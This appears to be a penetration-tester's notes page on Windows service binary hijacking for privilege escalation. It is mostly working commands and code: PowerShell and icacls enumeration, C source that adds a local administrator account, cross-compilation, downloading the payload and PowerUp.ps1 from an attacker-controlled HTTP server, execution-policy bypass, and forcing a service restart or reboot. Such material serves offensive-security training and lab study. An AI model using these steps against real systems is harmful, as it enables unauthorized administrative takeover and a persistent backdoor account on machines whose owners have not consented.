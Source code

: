 ```yaml
---
description: >-
  This attack involves replacing the service binary with a malicious version and
  restart the service.
---
```


# Service Binary Hijacking

Enumerate Services

Using `Get-CimInstance` with PowerShell to list running services:

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
{% endcode %}

{% hint style="warning" %}
When running **`Get-CimInstance`** and **`Get-Service`** via **WinRM** or a **bind shell** will result in a "Access denied" error when querying for services with a **non-administrative user**. \
Using an interactive logon such as **RDP** solves this problem.
{% endhint %}

## **Enumerate Binary Permissions**

Verifying the permission to modify the binary:

```batch
icacls "<binary_path>"
```

The table below describes the permissions definitions **`icacls`** results:

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

## Creating The Malicious Binary

The C code you provided appears to add a new user `<user>`  with the password `password123!` to the system and elevate it to administrator:

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user <user> password123! /add");
  i = system ("net localgroup administrators <user> /add");
  
  return 0;
}
```

Compiling this C code to create an executable:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Moving the legitimate service's binary, in order to be able to replace with the malicious one:

```batch
move <binary_path> <somepath>
```

Transferring the executable from the attacker machine:

```powershell
iwr -uri http://<attacker_http_server>/adduser.exe -Outfile <binary_path>
```

## **Triggering the Execution**

In order to trigger the malicious binary execution it's needed to either restart the service manually or If the service is set to start automatically, it possible to reboot the machine to force the service to start.\
Once the service restarts, the malicious binary will be executed.

Checking the Service Permissions:

```batch
sc sdshow <service_name>
```

Trying to restart the service:

{% tabs %}
{% tab title="Batch" %}
```batch
net <service_name>
net start <service_name>
```
{% endtab %}

{% tab title="PowerShell" %}
```powershell
Stop-Service <Service_name>
Start-Service <Service_name>
```
{% endtab %}
{% endtabs %}

If restarting the service is not allowed, trying the another method as described above:

1. Checking if the service set to restart automatically:

```batch
sc query <service_name>
```

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
```
{% endcode %}

2. Checking if the current user (foothold) has the **`SeShutdownPrivilege`** permission which allows to reboot the machine&#x20;

```batch
whoami /priv
```

3. Rebooting the machine&#x20;

`/r` - Reboot instead of shutdown.

`/t 0` - Trigger in 0 seconds.

```batch
shutdown /r /t 0
```

## Automated Process

It is possible to automate the process using well known tool called `PowerUp` from `PowerSploit` Collection:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

Downloading PowerUp.ps1:

```powershell
iwr -uri http://<attacker_http_server>/PowerUp.ps1 -Outfile PowerUp.ps1
```

Bypassing Execution Policy:

```batch
powershell -ep bypass
```

Importing PowerUp.ps1:

```powershell
. .\PowerUp.ps1
```

Finding Modifiable Services using **`Get-ModifiableServiceFile`** is a `PowerUp` function that looks for services on the machine whose executables are modifiable by the current user.

```powershell
Get-ModifiableServiceFile
```

Exploiting:

```powershell
Install-ServiceBinary -Name '<service_name>'
```

## References

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query" %}
Sc.exe query
{% endembed %}
